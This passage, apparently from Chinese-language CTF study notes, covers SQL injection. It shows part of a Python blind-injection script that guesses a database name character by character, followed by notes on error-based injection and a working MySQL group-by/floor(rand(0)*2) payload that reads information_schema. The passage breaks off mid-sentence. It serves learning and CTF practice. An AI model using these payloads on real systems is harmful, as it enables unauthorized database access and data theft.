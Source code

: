 ```python
        for j in charset:
            if j is '#':
                print("数据库的名字不在字符集中！")
                exit(0)
            full_payload = payl[0]+str(i)+payl[1]+"'"+name+j+"'"
            print(full_payload)
            if TestPayload(full_payload) is True:
                name += j
                break
        print("names: "+name)
    return name.split(",")

def __main__():
    init()
    if TestConn():
        getCurrentDatabaseName()
        #getDatabases()
        #tbl = getTables("ctftraining")
        #getColumns("ctftraining","flag")
        #getrows("ctftraining","flag","flag")
if __name__ == "__main__":
    __main__()
```

脚本只展示了一个函数，其他函数思想类似。

### 报错盲注

构造payload让信息通过错误提示回显出来。

+ group by报错
+ exp报错
+ bigint溢出报错
+ updatexml报错
+ mysql重复特性报错

#### 1. group by

报错原理：插入时主键不唯一。group by子句会对后面的表达式运行两次，如果使用floor+rand（0）产生的有规律序列，很有可能在下一次运行的第二次运算时候产生一个相同的主键，并将这个相同的主键插入，引起错误。  
[详细解释链接](https://blog.csdn.net/he_and/article/details/80455884)

构造语句的方法
【payload】为你想要输出的字段。比如：SELECT schema_name FROM information_schema.schemata limit 0,1  
下面这个比较稳定

```sql
and (select 1 from (select count(*),concat((【payload】),floor (rand(0)*2))x from information_schema.tables group by x)a)
```

---
这些还没有测试成功  
可以简化为
